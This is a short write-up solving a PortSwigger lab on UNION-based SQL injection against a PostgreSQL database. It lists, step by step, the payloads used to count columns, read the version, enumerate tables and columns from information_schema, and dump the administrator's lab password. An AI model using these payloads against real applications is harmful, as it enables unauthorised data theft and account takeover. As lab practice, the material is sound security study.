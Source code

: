 **SQL injection attack, listing the database contents on non-Oracle databases**
*-Goal: determine the name of tables, then retrieve username and password in order to log in as `administrator`*
*- Hint: https://portswigger.net/web-security/sql-injection/cheat-sheet*

*-Analysis:*
1. Determine the number of the columns:
` ' order by 3--`: we get error, so there are 2 columns
2. Determine the data type of columns:
` ' UNION SELECT 'a','a'--`: no error page, cause two columns are text type
3. Output the version:
` ' UNION SELECT @@version,NULL--`: error page --> not Microsoft

` ' UNION SELECT version(),NULL--`
PostgreSQL 12.20 (Ubuntu 12.20-0ubuntu0.20.04.1) on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 9.4.0-1ubuntu1~20.04.2) 9.4.0, 64-bit
4. Output the list of tables name from database
` ' UNION SELECT table_name, NULL FROM information_schema.tables--`: 
--> we found this table `users_trtqsn`
5. Output the column name of the table we found previous:
 ` ' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name = 'users_trtqsn'--`:  
 --> we found this `username_aoynjl` and  `password_nylooq`
6. Output the username and password
` ' UNION SELECT username_aoynjl, password_nylooq from users_trtqsn--`:
--> we found this 
username: `administrator` 
password: `z9ospvymipxga1i61v0e`

*`LAB SOLVED`*
![alt text](result.png)
